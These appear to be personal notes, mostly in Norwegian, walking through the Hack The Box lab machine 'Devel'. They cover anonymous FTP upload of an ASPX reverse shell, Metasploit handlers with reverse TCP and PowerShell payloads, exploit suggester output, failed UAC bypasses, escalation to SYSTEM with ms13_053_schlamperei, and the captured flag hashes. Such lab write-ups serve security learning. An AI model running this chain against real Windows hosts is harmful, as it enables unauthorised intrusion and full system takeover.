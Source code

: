 # devel 10.10.10.5

**last opp is.aspx**

**skaff shell**

**gjør om til meterpreter \(set lport 4434\)**

**kjør ps: migrate til hvilken som helst prosess som er system. woosh**

windows maskin

`oot@kali:~# nmap -sS -P0 10.10.10.5`

`Starting Nmap 7.40 ( https://nmap.org ) at 2017-05-26 09:47 EDT`

`Nmap scan report for 10.10.10.5`

`Host is up (0.061s latency).`

`Not shown: 998 filtered ports`

`PORT   STATE SERVICE`

`21/tcp open  ftp`

`80/tcp open  http`

logget inn **ftp **med **anonymous**.   login med -i som fjerner prompts

http kjører iis7

fikk et skikkelig shell med [https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/](https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/)

**windows 7 6.1 build 7600 x86**

**koble et shell rett inn i metasploit og oppgradere til meterpreter**

```
* use multi/handler

* set LHOST attack-machine

* set LPORT port-as-appropraite

* set payload windows/shell/reverse\_tcp

* exploit'
```

background session med ctrl z&lt;

`use post/multi/manage/shell_to_meterpreter`

kan her kjøre kommandoer.

```
net users
```

    Administrator            babis                    Guest**
    ``

    /c whoami = iis apppool\**web**



    **

use post/multi/recon/local\_exploit\_suggester **          
**FORSØKT ALLE DISSE UTEN HELL\*\*

```
\[+\] 10.10.10.5 - exploit/windows/local/bypassuac\_eventvwr: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms10\_015\_kitrap0d: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ms10\_092\_schelevator: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms13\_053\_schlamperei: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms13\_081\_track\_popup\_menu: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms14\_058\_track\_popup\_menu: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms15\_004\_tswbproxy: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ms15\_051\_client\_copy\_image: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms16\_016\_webdav: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ms16\_032\_secondary\_logon\_handle\_privesc: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ppr\_flatten\_rec: The target appears to be vulnerable.
```

getsystem = ingenting

```
wmic qfe get
```

no work :\(

sjekke hvilke prossesser som kjører med admin privelege.

```
use post/windows/gather/enum_patches
```

msf post\(shell\_to\_meterpreter\) &gt; use post/windows/gather/enum\_patches  
msf post\(enum\_patches\) &gt; set session 2  
session =&gt; 2  
msf post\(enum\_patches\) &gt; exploit

\[-\] Post failed: NoMethodError undefined method `[]' for nil:NilClass          
[-] Call stack:          
[-]   /usr/share/metasploit-framework/modules/post/windows/gather/enum_patches.rb:72:in`run'  
\[\*\] Post module execution completed

msf post\(enum\_patches\) &gt; run

\[-\] Known bug in WMI query, try migrating to another process  
\[\*\] Post module execution completed

**forsøkte å bypasse uac**  
msf exploit\(bypassuac\) &gt; exploit

\[_\] Started reverse TCP handler on 10.0.0.8:4444  
\[_\] UAC is Enabled, checking level...  
\[+\] UAC is set to Default  
\[+\] BypassUAC can bypass this setting, continuing...  
\[-\] Exploit aborted due to failure: no-access: Not in admins group, cannot escalate with this module

**greide å få powershell**

```
use exploit/windows/local/payload_inject
set payload windows/powershell_reverse_tcp

exploit/windows/local/ms16_032_secondary_logon_handle_privesc funekr ikke fordi det bare er et ettkjerne vm. krever to kjerner
```

```
use exploit/windows/local/ms13\_053\_schlamperei
tror det var denne som ordnet det. kjørte getsystem of fikk SYSTEM
```

type root.txt.txt

**e621a0b5041708797c4fc4728bc72b4b**

type user.txt.txt

**9ecdd6a3aedf24b41562fea70f4cb3e8**

